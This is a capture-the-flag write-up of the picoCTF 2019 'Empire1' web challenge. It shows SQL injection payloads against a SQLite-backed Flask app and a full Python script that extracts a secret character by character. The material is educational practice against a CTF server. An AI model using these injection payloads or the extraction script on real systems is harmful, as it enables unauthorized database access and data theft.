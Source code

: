 <h3>Challenge #10 Empire1</h3>

<blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

<p>In this challenge we have a site with login and register form.</p>  

<p>First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: </p>

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

<p>So I had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.</p>  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
<p>So we do see that user_id value is 3.</p><br>
<p>Have in mind<quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.</p>  

<p>So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.
<br><br>
First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :</p><br>
<br>
```python
"".join(chr(x) for x in range(32,127))
```

<p>That instantly crashed and gave me internal server 500 error.<br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.</p>  

<p>I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.</p>   

<p>After that i tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.</p>  

<p>Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine. </p> 

<p>Now we have to try to get info of our database , specifically table and columns etc.</p>

<p>There are some interesting methods that could give you information that you are looking for, like:PRAGMA functions, 
sqlite_master as main schema holder.</p> 

So first thing i wanted to know is the name of the table.</p>  

<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
<br>
<br>
<p>With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. <br>Good so far we have name of our table.
<br>
After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.</p>  

<br>  
<p>The straight away i tried checking if there is column with name of password or secret by doing :</p>  
<br>
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code><br>  
<p>Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code> </p> 
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our .  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

<p>The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.</p>

<p>So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.</p>

<p>Let's explain what is going on in this script:</p>  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```  

After that we have to post our data with our sql injection query and collect results of our response : <br>  
```python  
while True:
  i = i + 1
  my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT hex(substr(secret,{i},1))  FROM user where id='3') +'"})
  item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
  soup2 = BeautifulSoup(item_list.text,'html.parser')
  items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]
  if '0' in items:
    #pop 0
    items.pop()
    result.extend(items)
    break  
```  

At the end we have to go through results and loop over possible values of hexadecimals digits , but the best way is to make post once again by substringing and comparing each letter that we already got other possible letters as hexadecimals that we got(which means if we make something like <code>'+ (SELECT (substr(secret,4,1)='o') FROM user where id='3') </code><br>  ,for example)
Response for correct letter is going to be 1 and 0 for non existant .  
```python  
if len(result) > 0:
    for idx,res in enumerate(result):
        if len(res) == 1 and res != "0":
            result[idx] = {'hex':res,'possible_values':[bytearray.fromhex(res + ch).decode() for ch in a_to_f]}
            for k in result[idx]["possible_values"]:
              print(f"Testing {idx} for {k}...")
              my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT (substr(secret,{idx+1},1)='{k}')  FROM user where id='3') +'"})
              item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
              soup2 = BeautifulSoup(item_list.text,'html.parser')
              item = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')][-1]
              print("ITEM : " ,item)
              if item == '1':
                result[idx] = k
                break
        else:
           result[idx] = bytearray.fromhex(res).decode()


print('FLAG : ',"".join(result))  
```  

And we get the flag : <br>
<code><b>picoCTF{wh00t_it_a_sql_inject9899be1a}</b></code>